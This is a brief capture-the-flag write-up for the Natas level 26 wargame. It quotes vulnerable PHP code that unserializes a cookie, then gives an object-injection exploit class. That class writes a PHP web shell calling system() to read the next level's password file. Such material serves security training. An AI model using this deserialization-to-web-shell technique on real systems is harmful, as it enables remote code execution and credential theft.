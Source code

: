 ```php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }

if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
```

Object Injection vulnerablilty can be seen in the program. The drawing variable is a base64 encoded serialized string.

```php
<?php

class Logger{

        private $logFile;
        private $initMsg;
        private $exitMsg;
        function __construct(){
        $this->logFile="/var/www/natas/natas26/img/ro.php";
        $this->initMsg="roshan";
        $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27');?>";
        }
}
```